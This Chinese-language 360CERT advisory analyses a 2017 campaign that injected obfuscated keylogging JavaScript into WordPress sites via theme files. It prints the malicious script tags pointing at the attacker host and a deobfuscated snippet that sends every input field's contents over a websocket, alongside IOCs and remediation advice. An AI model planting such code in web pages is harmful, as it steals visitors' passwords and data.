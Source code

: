 ```yaml
---
id: 6c3e744f070dff4b88a5d15c5e46620e
title: Wordpress Keylogger事件分析
tags: 
  - 安全资讯
  - 360CERT
---
```


# Wordpress Keylogger事件分析

0x00 事件背景
---------


Catalin Cimpanu发现几起针对WordPress站点的攻击，主要通过加载恶意脚本进行键盘记录，挖矿或者挂载广告。并且有证据表明，这种攻击从4月份活跃至今。360CERT对该事件十分关注。


0x01 事件描述
---------


起因是WordPress被注入了一个混淆的js脚本，从主题的function.php文件进行植入。加载的js脚本地址为：



```
<script type='text/javascript' src='hxxp://cloudflare[.]solutions/ajax/libs/reconnecting-websocket/1.0.0/reconnecting-websocket.js'></script>  
<script type='text/javascript' src='hxxp://cloudflare[.]solutions/ajax/libs/cors/cors.js'></script>

```

其中reconnecting-websocket.js用作websocket通信，cors.js中包含后门。Cors.js更改前端页面，释放javascript脚本进行输入监听，之后将数据发送给攻击者（`wss://cloudflare[.]solutions:8085/`）。


![enter image description here](https://cert.360.cn/static/fileimg/picture_1_1512729045.png "enter image title here")


![enter image description here](https://cert.360.cn/static/fileimg/picture_2_1512729056.png "enter image title here")


0x02攻击脚本分析
----------


![enter image description here](https://cert.360.cn/static/fileimg/picture_3_1512729066.png "enter image title here")


用户WordPress首页底部有两个JS，第一个用来做websocket通信。后门核心文件`http://cloudflare[.]solutions/ajax/libs/cors/cors.js`。其中cors.js有混淆，简单处理后得到攻击脚本：


![enter image description here](https://cert.360.cn/static/fileimg/picture_4_1512729073.png "enter image title here")


攻击脚本会首先调用linter()，其中有对linterkey1，linterkey2的解码。



```
https://cdnjs.cloudflare.com/ajax/libs/linter/linter.js?657[.............................]

```
中，域名`cdnjs.cloudflare.com`是不存在的，根据代码逻辑，有用的部分应为？后的内容：


![enter image description here](https://cert.360.cn/static/fileimg/picture_5_1512729109.png "enter image title here")


解密出：


![enter image description here](https://cert.360.cn/static/fileimg/picture_6_1512729094.png "enter image title here")



```
function process_event(event) {  
var result = JSON.stringify({key:event.target.value , element: event.target.id});  
socket.send(result);  
}  
var i_fields = document.getElementsByTagName('input');  
for(var i=0; i < i_fields.length; i++) {  
i_fields[i].addEventListener('blur',process_event);  
}

```

逻辑很好理解，监听blur 事件(输入框失去焦点) 通过websocket发送用户input内容。


![enter image description here](https://cert.360.cn/static/fileimg/picture_7_1512729121.png "enter image title here")


最后，窗口加载后执行`addyandexmetrix()`。该函数是一个类似cnzz，做访问统计的js，具体用法：


<https://yandex.com/support/metrica/code/counter-initialize.xml>


0x03 攻击影响
---------


查看`cloudflare[.]solutions` DNS请求记录：


![enter image description here](https://cert.360.cn/static/fileimg/picture_8_1512729145.png "enter image title here")


可以看到，在6月份有一个峰值。并且在近期，攻击趋势陡然上升。以下是今天，截至写稿时的请求记录：


![enter image description here](https://cert.360.cn/static/fileimg/picture_9_1512729156.png "enter image title here")


可以看到，今天时，该攻击已经激化。


对页面进行检索，发现全球有近五千多站点被感染：


![enter image description here](https://cert.360.cn/static/fileimg/picture_10_1512729164.png "enter image title here")


以下受感染的部分域名：


![enter image description here](https://cert.360.cn/static/fileimg/picture_11_1512729174.png "enter image title here")


0x04 缓解措施
---------


检查页面源代码中是否有向`cloudflare[.]solutions`的JS请求，通过这种方法进行自检。


![enter image description here](https://cert.360.cn/static/fileimg/picture_12_1512729183.png "enter image title here")


恶意的JS是通过WordPress主题的function.php文件进行植入。请立即删除文件中，页面渲染恶意JS的部分。此时，密码很有可能已经被偷取，请及时更改密码。


0x05 IOCs
---------


资源请求：


`hxxp://cloudflare[.]solutions/ajax/libs/reconnecting-websocket/1.0.0/reconnecting-websocket.js`


`hxxp://cloudflare[.]solutions/ajax/libs/cors/cors.js`


数据接收：


`wss://cloudflare[.]solutions:8085/`


0x06 时间线
--------


**2017年12月7日 Catalin Cimpanu事件披露**


**2017年12月8日 360CERT及时跟进，发布预警**


0x07 参考
-------



> 
> <https://www.bleepingcomputer.com/news/security/keylogger-found-on-nearly-5-500-infected-wordpress-sites/>
> 
> 
> 


